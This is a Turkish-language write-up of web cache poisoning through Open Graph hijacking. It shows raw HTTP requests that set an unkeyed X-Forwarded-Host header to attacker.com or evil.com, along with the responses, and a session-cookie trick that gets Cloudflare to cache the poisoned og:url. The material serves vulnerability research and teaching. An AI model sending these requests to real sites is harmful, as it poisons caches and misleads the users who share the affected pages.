 ### **Open Graph Hijacking**

Open graph protokolü, websitelerinin içeriklerinin sosyal medyada paylaşıldığında nasıl görüneceğinin belirlenmesini sağlar.

Örneğin anahtar olarak kullanılmayan `X-Forwarded-Host` başlığı Open Graph URL adresini değiştiriyor:

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>GET /en HTTP/1.1
Host: redacted.net
<span style="color:DodgerBlue">X-Forwarded-Host: attacker.com</span>
</code></pre></div></div>

<div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>HTTP/1.1 200 OK
Cache-Control: max-age<span class="o">=</span>0, private, must-revalidate
…
&lt;meta <span class="nv">property</span><span class="o">=</span><span class="s2">"og:url"</span> <span class="nv">content</span><span class="o">=</span><span class="s1">'https://<span style="color:DodgerBlue">attacker.com</span>/en'</span>/&gt;
</code></pre></div></div>

Burada ele geçirdiğimiz **og:url** parametresi, paylaşılan URL'yi etkili bir şekilde geçersiz kılar, böylece bu sayfayı paylaşan herkes aslında bizim seçtiğimiz içeriği paylaşmış olur.

Yanıta dikkat edecek olursanız, web uygulaması `Cache-Control: private` ile Cloudflare’in önbelleğe almamasını sağlıyor. Fakat websitesindeki diğer bazı sayfalar önbelleğe alındığı için bu zafiyeti o sayfalar üzerinden gerçekleştirmek mümkün.

```bash
GET /popularPage HTTP/1.1
Host: redacted.net
X-Forwarded-Host: evil.com
```

```bash
HTTP/1.1 200 OK
Cache-Control: public, max-age=14400
Set-Cookie: session_id=942…
CF-Cache-Status: MISS
```

Buradaki '`CF-Cache-Status`' başlığı, Cloudflare'in bu yanıtı önbelleğe almayı düşündüğünün bir göstergesi, ancak buna rağmen yanıt aslında hiçbir zaman önbelleğe alınmıyor. Araştırmacı, Cloudflare'in bunu önbelleğe almayı reddetmesinin **session_id** çereziyle ilgili olabileceğini tahmin edip bu çerez mevcutken yeniden denemiş:

```bash
GET /popularPage HTTP/1.1
Host: redacted.net
Cookie: session_id=942…;
X-Forwarded-Host: attacker.com
```

```bash
HTTP/1.1 200 OK
Cache-Control: public, max-age=14400
CF-Cache-Status: HIT
…
<meta property="og:url" 
content='https://attacker.com/…
```
